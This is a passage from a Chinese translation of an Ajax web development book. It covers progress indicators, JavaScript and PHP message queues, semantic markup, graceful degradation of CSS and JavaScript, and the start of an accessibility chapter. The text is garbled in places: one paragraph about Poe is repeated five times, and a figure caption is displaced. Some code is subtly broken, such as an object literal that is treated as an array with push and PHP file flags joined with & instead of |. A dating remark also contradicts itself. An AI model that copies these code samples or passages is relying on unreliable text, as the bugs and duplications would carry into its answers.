然而，你应该权衡这种方法的弊端（除了占用宝贵的屏幕空间之外）与应用程序的用户界面设计要求。进度条的每个附加控件都会占用浏览器资源。这可能不会占用太多，但对于极其复杂的界面，这可能意味着脚本引擎速度的进一步减慢，尤其是在 IE 中。进度指示器中使用的任何图像都会占用内存，以及操纵和渲染它们所需的 JavaScript 和 CSS。同样，内存影响应该相当低，但是当复杂的 Web 应用程序大小达到（甚至超过）500kB 时，每增加 1kB 的数据，浏览器在会话期间渲染和管理页面时就需要处理稍多一点的数据。

页面中的移动往往会分散人们对他们在该页面上想要完成的任务的注意力。人们通常比静态广告更厌恶动画广告横幅，纯粹是因为动画将注意力从页面的主要内容上移开，对于那些患有某种形式多动症（ADHD）的用户尤其如此，这成为了一个可访问性问题。为了使进度指示器足够微妙以避免分心，设计师冒着创建过于微妙的指示器以至于无法察觉的风险，特别是在考虑低视力或色盲用户时。盲人用户尤其难以使用带有内联进度指示器的界面，因为更新 DOM 结构需要焦点变化来通知用户变化（关于这一点，将在第 2 章“可访问性”中详细讨论）。

这些缺点并不意味着应用程序永远不应使用专用容器来显示进度指示器；你只需在设计应用程序界面时，考虑到使用方法的利弊两方面。

作为对前述方案的一种替代，您可以参考elinks浏览器（一个源自links项目的开源文本模式浏览器，http://links.sourceforge.net）来设计进度指示器的管理。其默认行为会弹出一个如图1.9所示的文件下载对话框，提供一个持续更新的进度指示器，并显示当前下载速率、平均下载速率、文件大小等元数据；同时，它还提供选项，允许用户将下载过程作为后台任务继续执行（可选择完成后是否通知），或者中止下载（可选择是否停止当前进行的文件下载）。



图1.9 使用elinks浏览器进行文件下载。

在将此设计应用于Web应用时，可以通过一个按钮和快捷键组合，在用户请求时显示一个覆盖层。这降低了分散用户注意力的风险，并且可以仅在向用户显示进度指示器时，才激活必要的显示对象。这种技术占用的屏幕空间也少得多，因为内容本身是以覆盖层的形式呈现，而不是替换其他内容，仅以按钮或链接的形式存在。

#### 1.3.3 让用户知情

有时，用户需要了解应用程序中发生的某些事件（无论是服务器端还是客户端）；在这种情况下，应用程序需要在正常的界面交互之外显示一条消息。图1.4展示了一个内联消息，告知用户系统中已存在该用户名。内联消息对用户来说通常更合理，因为它不会将他们从交互流程中移除。

然而，有时（例如在与服务器通信出错或通知文件上传完成的情况下），应用程序没有合适的内联位置来显示消息。

在这种情况下，需要存在一个全局可访问的消息队列，并以一种将用户注意力暂时从界面引向消息内容本身的方式显示消息。与进度指示器可能存在于专用容器或临时覆盖层中的困境类似，全局消息也面临相同的选择。但是，如果对于特定的应用程序界面，覆盖层消息效果更好，那么用户将无需像对待进度指示器那样去隐藏消息，因为消息一旦被阅读（并在必要时报告），就失去了其存在意义。因此，越来越多的Web应用程序采用了各种操作系统通知方法的设计，通常以级联布局在一侧屏幕显示消息队列，如图1.10所示。



图1.10 一个通知系统显示两条警告和一条通用消息。

实现一个一致的消息系统需要几层通信（如图1.11所示），以便将内容抽象化，从而能在整个应用程序中广泛使用。

##### 1.3.3.1 客户端输出管理

将客户端输出管理与实际的消息队列对象抽象分离，在许多方面都有帮助，包括防止输出约束开始影响消息队列自身代码的风险。因为消息视图可能会被重新设计（无论是视觉上还是架构上），将消息视图与消息控制器解耦，会使后续工作轻松得多。可以将其视为消息输出的客户端模板。



图1.11 数据流图展示了服务器端和客户端消息传递的交互。

```javascript
function MessageOutput() { }
MessageOutput.prototype = {
    /**
     * 输出容器的引用
     */
    container : null,

    /**
     * 模板元素
     */
    template : null,

    init : function() {
        // 假设已创建一个ID为"messages"的ul元素
        this.container = document.getElementById('messages');
        // 创建用于复制到DOM的模板
        this.template = document.createElement('li');
    },

    display : function(message) {
        var new_node = this.template.cloneNode(true);
        new_node.setAttribute('class', message.type);
        new_node.innerHTML = message.content;
        this.container.appendChild(new_node);
    }
}

var message_output = new MessageOutput();

window.addEventListener(
    'load',
    function() {
        MessageOutput.prototype.init.apply(
            message_output,
            arguments
        );
    }
);
```

##### 1.3.3.2 客户端消息队列

因为消息队列不需要知道消息如何显示，所以在将消息传递给显示层之前，它在处理数据方面拥有更大的自由度。这一点可以在不将数据处理代码与视图代码混合的情况下实现：

```javascript
function Messenger() { }
Messenger.prototype = {
    /**
     * 创建初始队列数组
     */
    message_queue : {},

    /**
     * 返回整个队列
     */
    getQueue : function() {
        return this.message_queue;
    },

    /**
     * 向指定队列添加消息
     */
    add : function(message, type) {
        this.message_queue.push(
            {
                content : message,
                type : type
            }
        );
    }
}
```

##### 1.3.3.3 服务器端输出管理

应用程序的服务器端输出管理与客户端输出管理具有相同的职责和优点，尽管您更有可能使用实际的模板引擎，这甚至可能将此方面简化为单个模板。然而，虽然客户端输出可能有一个系统，在一段时间后自动从界面移除消息，以防止旧消息导致队列溢出容器（或产生滚动条），但服务器端输出应显示消息并保持，给用户阅读后关闭消息的选项。

服务器端应用程序通常拥有模板引擎，极大地简化了输出的架构。由于支持不同类型输出（JSON、XHTML、XML等）的架构将大部分底层逻辑从与输出管理相关的代码中移除，第7章“服务器端应用架构”将详细阐述特定于架构的代码；然而，本章中的代码示例将专注于模板片段本身的示例。

渲染XHTML通常是最容易处理的输出方式，因为它只需要在JavaScript中替换`innerHTML`。然而，这种做法使得基于内容的JavaScript决策变得更加困难，并且通常比XML或JSON消耗更多的带宽：

```php
<ul class="messages">
<?php foreach ($messages as $message) { ?>
    <li class="<?php echo htmlentities($message->type); ?>">
        <?php echo htmlentities($message->content); ?>
    </li>
<?php } ?>
</ul>
```

渲染JSON，特别是由于PHP5添加了`json_encode`和`json_decode`库函数，变得更加容易。JSON的最大优点有时也是其缺点在于，根据定义，它作为JavaScript执行。这使得客户端解析成为瞬时操作，并且随着其他语言库数量的不断增长，使用其他语言（服务器端或其他方式）解析JSON也几乎同样容易和即时。它还倾向于在所讨论的三种选项中使用最少的带宽，因为对象表示法真正只支持两种数据结构：名称/值对和有序值：

```json
{
    "messages" : <?php echo json_encode($messages); ?>
}
```

在此讨论的格式中，XML（大多数主流编程语言都提供XML解析器）是最灵活且支持最广泛的。它使得开发人员自身更容易阅读，并且按设计不会执行任何代码（不像JSON那样）。当处理`XMLHttpRequest`响应时，浏览器会将正确提供的XML作为完整的DOM提供给客户端脚本进行解析：

```xml
<messages>
<?php foreach ($messages as $message) { ?>
    <message type="<?php echo htmlentities($message->type); ?>">
        <?php echo htmlentities($message->content); ?>
    </message>
<?php } ?>
</messages>
```

##### 1.3.3.4 服务器端消息队列

此区域与客户端消息队列具有相同的职责和优点，不过它也需要将整个队列保持在内存中，直到能够将列表传递给

要生成输出（除非你使用内存外缓存系统或具有类似结果的系统）。这很少对整个应用程序的内存使用构成威胁，如果构成威胁，应用程序可能没有在适当的位置停止，或者给出了过于冗长的错误消息：

> 请记住，由于它将被全局使用，消息队列可能会将整个列表传递给输出以进行完整的页面加载，或者它可能将列表传递给 Ajax 调用的输出，然后使用客户端对象进行显示。

```php
/**
 * A drastically simplified Message object in order
 * to keep the example readable
 */
class Message {
    public $content;
    public $type;

    public function __construct($content = '', $type = 'message') {
        $this->content = $content;
        $this->type = $type;
    }
}

class Messenger {
    // The $message_queue holds all types of messages in order to
    // return all of them at once if and when requested
    protected $message_queue;

    /**
     * Create the initial queue array
     */
    public function __construct() {
        $this->message_queue = array();
    }

    /**
     * Return the entire queue
     */
    public function getQueue() {
        return $this->message_queue;
    }

    /**
     * Add a message to the specified queue
     */
    public function add($message, $type) {
        $this->message_queue[] = new Message($message, $type);
    }
}
```

最终结果是，应用程序中的任何对象都可以根据需要将消息添加到队列中，以便在处理的后期呈现给用户。通过这种方式，错误和消息的管理与渲染和呈现完全分离，允许它们在 XHTML 中或 Ajax 请求的响应中显示。这种抽象层使得维护变得更加容易，允许消息与应用程序的其余部分一起遵循简单的模型-视图-控制器（MVC）实现。（MVC 在第 3 章“客户端应用程序架构”和第 7 章“服务器端应用程序架构”中有详细探讨。）

通过扩展 `Messenger` 类，`Logger` 类可以覆盖 `Messenger::add()` 以记录消息，而不是将其保存在内存中：

```php
class Logger extends Messenger {
    /**
     * Override Messenger::add() to log the message appropriately
     */
    public function add($message, $type) {
        switch ($type) {
            case 'error':
                error_log($message);
                break;
            case 'message':
            default:
                file_put_contents(
                    '/tmp/application_x.log',
                    $message . "\n",
                    FILE_APPEND & LOCK_EX
                );
                break;
        }
    }
}
```

总之，服务器端或客户端的消息队列需要保持轻量、灵活且易于开发。通过将队列管理与队列渲染解耦，这些要求可以轻松且直观地实现。

### 1.4 语义化标记

尽管许多 XHTML 编码者一想到“不得不”使用语义化标记就会畏缩（因为它可能需要更多的 CSS 来完全按照他们预期的方式布局界面），但语义化标记除了能带来无障碍性之外，还有许多好处。语义化标记还使 XHTML 更易用、更易读、更易维护和更易解析。使用它意味着按照规范设计的方式使用可用的标记，而不是使用通用标记来模拟描述性标签。

#### 1.4.1 更无障碍

与大量嵌套的 `div` 和 `span` 标签相比，语义化标记的无障碍性大大提高。当屏幕阅读器向用户朗读页面时，无论样式多么相似，以下两个示例听起来会非常不同：

> 由于 `table` 布局在可接受标记方面的地位已大幅下降，本章将不涵盖任何内容优于基于 `table` 布局的好处，尤其是嵌套的 `table` 布局。引言部分将 XHTML 列为本书的先决条件之一，这包括了解 `table` 标签的正确用法。

```html
<div class="heading">Important Items</div>
<div class="navigation_list">
    <div><a href="#one">An Item</a></div>
    <div><a href="#two">Another Item</a></div>
    <div><a href="#three">Yet Another Item</a></div>
</div>
```

屏幕阅读器朗读此示例时，听起来类似于“重要项目。链接：一个项目。链接：另一个项目。链接：又一个项目”：

```html
<h3>Important Items</h3>
<ul>
<li><a href="#one">An Item</a></li>
<li><a href="#two">Another Item</a></li>
<li><a href="#three">Yet Another Item</a></li>
</ul>
```

> 屏幕阅读器将应用程序的元素及其内容解释为盲人和视力低下用户用于与视觉软件交互的语音表示。不同的屏幕阅读器都有不同的页面朗读方式，尽管最终结果应该给你相同级别的信息。

此示例听起来更像是“三级标题：重要项目。包含三个项目的列表。项目符号，链接：一个项目。项目符号，链接：另一个项目。项目符号，链接：又一个项目。列表结束。”这为用户提供了关于页面上链接列表的更多元数据。

屏幕阅读器宣布“重要项目”为具有特定级别的标题，通知用户该部分与整个文档的关系。此外，屏幕阅读器（以及某些浏览器和浏览器扩展）允许用户通过从标题跳到标题来浏览页面，使用标题级别来分层组织页面。这增加了语音页面的灵活性，赋予用户对阅读内容的控制权，并减少了等待到达页面中给定位置所花费的时间。

读取标题后，屏幕阅读器宣布链接列表为包含三个项目的列表。这使得链接列表不会听起来像数量未明的段落，每个段落都包含一个链接。然后，用户可以使用屏幕阅读器的导航工具在链接列表中跳转，确切知道它有多少个项目以及每个项目包含什么类型的信息。此外，使用 `ul` 元素在标记中排列链接，比使用 `divs` 更能增加页面的分层结构，即使 XML 结构看起来相同。

通过使用语义化标记，www.frozen-o.com/blog 的当前首页最大收听时间约为 250 秒，即使该页面包含超过 50kB 的主要是文本内容。即使是很小的更改，例如将 `h2s` 和 `h3s` 更改为带样式的 `divs`，也会使最大收听时间激增至 1000 秒以上；这种差异的发生是因为将标题标签替换为 `div` 移除了页面各部分之间的关系，从而消除了用户在它们之间导航的能力。

> 收听时间因用户在其屏幕阅读器中的设置而有很大差异，这些设置都具有可变的速度。本节使用的测量来自在正常、平均设置下的分析。

#### 1.4.2 更易使用

语义化标记以及整个 Web 应用程序的易用性和无障碍性在很大程度上是重叠的。这并不意味着创建无障碍页面必然会创建一个可用的页面，但从某种意义上说，创建一个不可用但通过无障碍性测试的页面无论如何都会使其不可访问（更多内容见第 2 章）。

使用语义化标记允许使用用户样式表的人将他们的样式应用于你的标记，以调整显示。这种能力有多种形式，但你可以利用用户样式表来增大页面整体文本的大小、勾勒（或以其他方式突出显示）标题标签，或特殊格式化块引用标签，使其在页面的一般文本中更加突出。一些浏览器、浏览器扩展和用户脚本允许用户根据标记生成页面摘要或目录，这在很大程度上依赖于页面的标题级别。

`table` 标签及其依赖项（`caption`、`thead`、`tbody`、`tfoot`、`tr`、`th` 和 `td`）在呈现表格数据方面具有重要地位。没有其他标签组合能够以相同深度的信息和元数据来组织表格数据。用 CSS 模拟表格可能接近，但不仅在未加载该 CSS 时会失败，而且在大多数文本浏览器和屏幕阅读器中也会失败。在处理组织数据集时，正确使用 `table` 标签使你能够灵活地突出显示行和列、对数据子集进行分组、清晰地标记相关数据并提高该数据的可读性。它还允许用户轻松浏览这些数据，不仅使用屏幕阅读器，还可以使用多种用户脚本来排序、突出显示以及以其他方式与表格交互，以更轻松地访问他们感兴趣的信息。

通过使用其他标签，如 `address`、`code` 和 `q`（注意 IE 不支持 `q` 标签），你可以提高用户确定页面或段落的给定部分之间关系的能力。这也使应用程序能够以编程方式确定该关系。这使得通过进一步改进或通过第三方浏览器扩展和脚本来扩展 Web 应用程序变得简单得多。它还可以让用户感觉更能控制他们对 Web 应用程序的体验。


#### 1.4.3 更易于维护

前面的六行示例可能在可读性上没有太大的差异，但如果是包含100行或1000行的标记呢？即使正确缩进、带有语法高亮，当无法分辨特定元素与页面结构的关系时，代码也会变成难以阅读的混乱状态。拥有更可读的代码更易于维护，并且比让新员工或贡献者翻阅数十个不同的类定义，以*几乎*相同的能力推断页面结构，所需的培训时间要少得多。

此外，使用语义化标记时，页面体积会减小，因为你不再需要类引用和定义来模拟页眉标签、列表、引用块和其他标签已经提供的功能。从技术上讲，是的，你可以让 `<div class="pageheader">Page Title</div>` 看起来完全像 `<h1>Page Title</h1>`，反之亦然，但为什么要用语义化标记做更少的工作呢？

当你使用语义化标记时，你还在强化结构与样式的分离。使用合适的标签，而不是带有描述用途类名的 `divs` 或 `spans`，更容易避免创建和使用描述样式的标签。以下示例：

```html
<span class="emphasis">
    Emphasize me
</span>
```

....很容易导致：

```html
<span class="emphasis red">
    Emphasize me
</span>
```

....而不是：

```html
<em class="warning">
    Emphasize me
</em>
```

通过语义化标记，你可以获得更好的投资回报率（ROI），因为你可以更快地达到开发目标，支持更广泛的用户群，并降低软件维护成本。前面示例中的最后一个按照预期使用了描述性标记，使得更容易一目了然，或通过代码，判断该标记块的含义。

#### 1.4.4 更易于解析

因为语义化标记使用标签名称而不是属性来区分页面结构的各个方面，所以开发与页面结构交互的代码变得更容易编写、阅读和维护。使用非语义化标记并非不可能解析出相同的元素，但代码及其性能会受到影响。

请看以下两对代码示例，每对都包含一个简单博客的 XHTML DOM 内容，以及一个用于更改每个无序列表中最后一个元素背景的相应脚本。

```html
<div id="demo_dom">
    <div class="post">
        <h3>Post title</h3>
        <p>Lots of post text. Lots of post text. Lots of post text. Lots of post text. Lots of post text. Lots of post text. Lots of post text. Lots of post text.</p>
        <ul>
            <li>
                something
                <ul><li>number 1</li><li>number 2</li></ul>
            </li>
            <li>something</li>
            <li>something</li>
        </ul>
        <p>Lots of post text. Lots of post text. Lots of post text. Lots of post text. Lots of post text. Lots of post text. Lots of post text. Lots of post text.</p>
    </div>
</div>
```

用于选择每个无序列表中最后一个列表项的函数定义如下：

```javascript
function select() {
    var demo_dom = document.getElementById('demo_dom');
    var post_lists = demo_dom.getElementsByTagName('ul');
    for (var i = 0; i < post_lists.length; i++) {
        var last_li = post_lists.item(i).lastChild;
        while (last_li) {
            if (last_li.nodeType == 1) {
                last_li.style.backgroundColor = '#000';
                break;
            } else {
                last_li = last_li.previousSibling;
            }
        }
    }
}
```

此函数获取根元素（根据本示例需要），并检索包含在其中的所有 `ul` 元素的 `NodeList`。然后，它遍历每个元素，从最后一个子节点（对于大多数元素，是包含空白的文本节点）开始，直到找到一个元素节点。当找到这样的节点时，它会更改背景颜色并中断循环。

相比之下，以下示例使用带有定义外观的 CSS 类的通用 `div` 元素创建了相同的 DOM 结构：³

```html
<div id="demo_dom">
    <div class="post">
        <h3>Post title</h3>
        <div>Lots of post text. Lots of post text. Lots of post text. Lots of post text. Lots of post text. Lots of post text. Lots of post text. Lots of post text.</div>
        <div class="ul">
            <div class="li">
                something
                <div class="ol"><div class="li">number 1</div><div class="li">number 2</div></div>
            </div>
            <div class="li">something</div>
            <div class="li">something</div>
        </div>
        <div>Lots of post text. Lots of post text. Lots of post text. Lots of post text. Lots of post text. Lots of post text. Lots of post text. Lots of post text.</div>
    </div>
</div>
```

> ³ 参见 http://advancedajax.frozen-o.com 上的示例 “DOM methods to outline the last list item of each emulated unordered list” 了解模拟 ul 和 ol 元素的 CSS。

在此 DOM 中完成相同的高亮显示需要一个非常不同的函数：

```javascript
function select() {
    var demo_dom = document.getElementById('demo_dom');
    var post_divs = demo_dom.getElementsByTagName('div');
    for (var i = 0; i < post_divs.length; i++) {
        var current_div = post_divs.item(i);
        if (!current_div.attributes) {
            continue;
        }
        // Supporting IE, Opera, Safari and Mozilla takes two routes
        var current_class = current_div.attributes['class'];
        if (current_class) {
            current_class = current_class.value;
        } else if (current_div.getAttribute) {
            current_class = current_div.getAttribute('class');
        }
        if (current_class) {
            var classes = current_class.split(' ');
            // Because only Mozilla (currently) supports .indexOf()
            for (var j = 0; j < classes.length; j++) {
                if (classes[j] == 'ul') {
                    var last_li = current_div.lastChild;
                    while (last_li) {
                        if (last_li.nodeType == 1) {
                            last_li.style.backgroundColor = '#000';
                            break;
                        } else {
                            last_li = last_li.previousSibling;
                        }
                    }
                    break;
                }
            }
        }
    }
}
```

此函数获取 DOM 中的所有 `div` 元素（包括段落、有序列表、列表项和 `post` 容器），然后遍历每个元素，需要循环处理 27 个元素，而不是第一个实现中的三个 `ul` 元素。然后，它必须费力地用两种不同的方法获取 `class` 属性的值，以支持所有主要浏览器，然后遍历所有类名（`class` 属性可以通过以空格分隔的列表命名多个类来引用多个类），因为目前只有 Mozilla 支持 `Array.prototype.indexOf`。一旦函数找到一个无序列表，它就会像之前一样更改最后一个列表项的背景颜色。

即使脚本没有如此明显的差异，在全面的客户端应用程序中，影响也会变得非常明显。当脚本突然处理数百个（甚至数千个）元素时，尤其是 IE，性能会受到相当大的影响。即使暂时不考虑性能问题，第二个 `select()` 定义也更复杂，因此，出错的机会也更多；此外，在必要时改变其行为需要更多的工作。

### 1.5 CSS 和 JavaScript 的共同点

你可以非侵入性地使用 CSS 和 JavaScript，即用户应该能够禁用其中之一或两者，而不会失去任何功能或阅读和使用界面的能力。同时，CSS 和 JavaScript 往往都有许多内联和元素内声明，这违背了分离页面结构、样式和行为的实践。

这并不意味着应用程序的设计应完全基于屏幕阅读器和文本浏览器，然后针对没有样式或脚本的 GUI 浏览器实现，等等。相反，由于 Web 应用程序用户界面往往存在许多潜在的故障点，它们都不应阻止用户完全使用应用程序。这是语义化标记的另一个好处：当 CSS 因网络问题或用户禁用而无法加载时，它将以显示页面中数据关系的方式显示，但它将使用浏览器的默认样式代替应用程序的样式（参见图 1.12）。



越来越多的用户利用 NoScript (www.noscript.net) Firefox 扩展等工具，将网站加入白名单，浏览器将允许其运行 JavaScript。这大大增加了用户看到你的 Ajax 驱动的 Web 应用程序在完全没有脚本的情况下如何运行的可能性，更不用说 `XMLHttpRequest` 对象了。


JavaScript 也可能在页面上"死亡"，如果用户偶然遇到导致 JavaScript 错误或异常的 bug，而这种情况不应该影响页面通过传统页面加载方式正常工作。

这种潜在的故障也适用于一个影响较小但更频繁的层面，因为不同的浏览器对 CSS、JavaScript 和 DOM 本身的支持程度各不相同。因此，代码需要为每个不同的布局或功能实现进行分支，以支持每个主要浏览器，或者需要足够优雅地降级，以便用户甚至没有意识到他们错过了什么，除非他们并排比较两个浏览器中的界面。

以下 CSS 使用了属性和 DOM 的某些方面，这些方面在最流行的渲染引擎中得到不同程度的支持。每段文本的首字母从内联布局更改为块布局，允许段落文本环绕在该字母的右侧。它还显示为正常大小的三倍，斜体，并且行高从默认值减小，以减少它与下方环绕的首行之间的间距。它有一个轻微的缩进，宽度为 `1em` 以略微填充默认值，并且在字母位置向右和向下 4 像素处有一个大小为 3 像素的黑色阴影：

```
p {
    clear: both;
    margin: 1em;
}

p:first-child:first-letter {
    display: block;
    float: left;
    font-size: 3em;
    font-style: italic;
    line-height: .7em;
    text-indent: .2em;
    text-shadow: 4px 4px 3px #000;
    width: 1em;
}
```

IE6 缺乏选择器和文本阴影支持，对测试的 CSS 支持很少。IE7 由于引入了选择器而具有更好的支持，但仍然缺乏适当的 DOM 支持和 `text-shadow`。Mozilla 具有更好的 DOM 支持，但边距并不完全匹配。Opera 几乎所有方面都正确，尽管它仍然缺乏对字符间距和尺寸的控制。Safari 支持一些 CSS3 属性的当前草案，并且对字符间距、字距调整和边距的控制要精确得多。

埃德加·艾伦·坡作为编辑，曾经写道，在短篇小说中，每句话的每个词都需要对整个作品有所贡献。其他任何东西都会浪费页面空间和读者时间，应该被删除。

当涉及到用户界面时，这对于页面上的所有内容也是如此，无论是文本、表单元素还是媒体。特别是对于新采用的技术，那些使用它们的人往往会做得过火。

埃德加·艾伦·坡作为编辑，曾经写道，在短篇小说中，每句话的每个词都需要对整个作品有所贡献。其他任何东西都会浪费页面空间和读者时间，应该被删除。

当涉及到用户界面时，这对于页面上的所有内容也是如此，无论是文本、表单元素还是媒体。特别是对于新采用的技术，那些使用它们的人往往会做得过火。

埃德加·艾伦·坡作为编辑，曾经写道，在短篇小说中，每句话的每个词都需要对整个作品有所贡献。其他任何东西都会浪费页面空间和读者时间，应该被删除。

当涉及到用户界面时，这对于页面上的所有内容也是如此，无论是文本、表单元素还是媒体。特别是对于新采用的技术，那些使用它们的人往往会做得过火。

埃德加·艾伦·坡作为编辑，曾经写道，在短篇小说中，每句话的每个词都需要对整个作品有所贡献。其他任何东西都会浪费页面空间和读者时间，应该被删除。

当涉及到用户界面时，这对于页面上的所有内容也是如此，无论是文本、表单元素还是媒体。特别是对于新采用的技术，那些使用它们的人往往会做得过火。

埃德加·艾伦·坡作为编辑，曾经写道，在短篇小说中，每句话的每个词都需要对整个作品有所贡献。其他任何东西都会浪费页面空间和读者时间，应该被删除。

当涉及到用户界面时，这对于页面上的所有内容也是如此，无论是文本、表单元素还是媒体。特别是对于新采用的技术，那些使用它们的人往往会做得过火。

图 1.13 准确支持的日益增加。

图 1.13 显示了准确支持的日益增加。（此比较不包括 `text-shadow`，因为 W3C 尚未最终确定 CSS3。）

非侵入式地编写 CSS 和 JavaScript 不仅使界面更容易优雅降级，而且还鼓励在界面结构、设计和行为之间建立更清晰的界限。除了使标记保持不含内联样式和脚本（包括内联事件监听器，如 `onclick` 或 `onsubmit`）之外，它还通过使维护更轻松、更快捷来奖励良好的编码实践。此外，只要 JavaScript 仅引用类名和元素 ID，就可以完全在样式表中重新设计应用程序。同样，只要结构、样式和脚本具有足够的解耦以允许这样做，重新架构客户端应用程序就不需要影响界面设计或页面结构。

不同浏览器对相同 CSS 渲染的示例也表明，每个浏览器的用户都不会看到他们的用户体验中必然缺失任何东西。即使是 IE6 用户，他们拥有的 CSS 支持非常少且错误百出，也没有迹象表明某些东西未能在他们的浏览器中渲染。

同样，在某些情况下，对 JavaScript 的支持也可以优雅地降级。在这种情况下，扩展经常使用的事件监听器取消表单或点击链接操作的示例，当客户端没有能力处理操作所需的一切时，应用程序可以回退到让服务器执行操作。

这种做法不仅在浏览器没有 `XMLHttpRequest` 对象可用时发挥作用，而且当其他对象或方法不存在时也适用。如果一个应用程序允许图像编辑，那么在开发方面，使用 DOM 中的 PNG 或 SVG 层来提供客户端图像操作可能更快，同时为 IE 和其他缺乏此支持的浏览器返回 false。这将提供*模拟*的图像操作，然后将在服务器上生成生成的图像文件；此外，界面将回退到完全页面加载，并在服务器上生成临时图像文件（在内存中或通过将文件传递给浏览器）以实现相同的结果，尽管为用户提供较慢、较不丰富的体验。

在某些情况下，一个浏览器中可用的 DOM 方法可能比其他浏览器更快，或者实现更完整。使用 `document.importNode` 可以使导入外部标记极其快速和简单，但 IE 不支持它。许多开发者在原生实现不存在时，简单地编写了自己的替代品以在 IE 中使用。

> 遗憾的是，IE 实际上并不支持 JavaScript 作为一种真正的原型语言；这迫使开发者将对象方法如 `Array.prototype.indexOf` 写在 `window` 对象中。在其他浏览器中，添加甚至替换全局可用对象（如 `Array`、`XMLHttpRequest` 和 `String`）的方法默认得到支持，仅仅因为它们提供了真正的 JavaScript 支持。

这个想法在处理 JavaScript 性能时也适用。在处理动画（如淡入淡出、滑动或由流畅过渡组成的任何其他内容）时，不同的浏览器可能有截然不同的性能，特别是在考虑机器本身的处理器和可用内存时。通过编写使用可变帧速率的过渡，即使是最慢的支持机器仍然会看到过渡目的地的最终结果，即使它们的帧速率为每秒一帧，而更快的机器可以拥有流畅、完全动画的体验。


## 第2章

本章内容

- 2.1 WCAG 和 Section 508
- 2.2 屏幕阅读器可以处理 Ajax
- 2.3 非侵入式 Ajax
- 2.4 无障碍设计思维
- 2.5 WAI-ARIA

在 Ajax 驱动的 Web 应用程序中，无障碍性常常被视为未知领域，不幸地，它往往在开发地图上被标记为“此处有龙”。为了克服对 Ajax 驱动功能无障碍性的恐惧甚至怀疑，首先必须理解那些确实存在（以及不存在）的特定障碍。一旦将这些障碍分解为具体细节并量化，它们就失去了威慑力，克服它们的方法也可以纳入标准开发实践中。幸运的是，使 Ajax 驱动的 Web 应用程序具备无障碍性的大部分内容，都建立在使传统 Web 应用程序具备无障碍性的基础之上。使 Web 应用程序具备无障碍性的唯一新方面，出现在更新 DOM 以通知用户新内容时；这种做法本质上等同于为图像提供替代文本的 DOM 操作。在深入了解如何在动态 Web 应用程序中添加屏幕阅读器支持之前，必须首先牢固理解当前的标准和指南。如果用户无法导航到 Ajax 驱动的功能，那么他们从一开始就不会使用该应用程序。

### 2.1 WCAG 和 Section 508

《Web 内容无障碍指南》（WCAG）1.0 和 Section 508 提供了两份无障碍性检查清单。如果没有标准规则可供开发和测试，Web 无障碍性的定义将会比我们今天所拥有的更加模糊。虽然目前使用的标准（说得温和一些）确实存在一些灰色地带，但当你理解其背后的意图并努力服务于这些意图，而不是想方设法绕过它们时，它们确实是值得达到甚至超越的。正如许多无障碍倡导者正确指出的那样，为残障人士编写代码，并不意味着仅仅为了更大的利益而以一种让开发者自我感觉良好的方式编写代码。这也意味着要为他们未来的自己编写代码，因为绝大多数人年老后，其感官都会以某种方式减弱。视力随年龄增长而变差似乎并不奇怪，开发者需要秉持这样的心态：他们今天编写的技术，直到他们需要辅助技术（至少是可缩放的屏幕）才能使用时，其成果依然能够存活。

#### 2.1.1 WCAG

W3 网络无障碍倡议（WAI）提供了《Web 内容无障碍指南》（WCAG）1.0 版（www.w3.org/TR/WCAG10），同时也提供了 WCAG 2.0 的初始草案（www.w3.org/TR/WCAG20）。WCAG 1.0 于 1999 年 5 月获得批准，而 WAI 在撰写本文时（2007 年）预计 WCAG 2.0 将在 2006 年的某个时候最终定稿并获得批准。因此，本文将只关注 WCAG 1.0。

WCAG 的检查点列表分为三个优先级，每个优先级对应 W3C 对“必须”（优先级 1）、“应该”（优先级 2）和“可以”（优先级 3）的定义。这种优先级划分旨在明确某些检查点（优先级 1）对于普遍访问是必不可少的，而其他优先级的检查点则能显著或略微地让有不同无障碍需求的人更容易访问 Web 应用程序的各个部分。

##### 2.1.1.1 优先级 1

大多数优先级 1 的检查点集中在一条规则上：为了让所有用户群体都能使用 Web 应用程序，任何非线性的、基于文本的内容都必须有一种方式来表示其本身。这意味着图像、框架、小程序和流媒体都需要提供描述其内容的替代文本。虽然这看起来是相对快速且容易做的事情，但令人惊讶的是，目前有很大一部分 Web 应用程序甚至没有满足最基本的使用 `img` 标签的 `alt` 属性的要求。

同样，替代文本——这在图像中尤其常见——往往可能说的比需要说的更多。这并不意味着无论内容如何，替代文本都需要保持简短，但它确实需要保持简洁和明确。许多 Web 应用程序的链接包含文本和图标——例如，一个“帮助”链接旁边有一个风格化的问号。虽然提供“帮助”或“问号”作为图标的替代文本似乎不错，但这些文本对用户来说听起来会是“帮助帮助”和“帮助问号”。因为图像实际上并不提供任何独特的信息，而且替代文本实际上会让你感到厌烦（如果你每次经过帮助链接时都必须听到“帮助帮助”），那么为图像的替代文本使用 `alt=""` 比提供冗长的文本更具无障碍性。

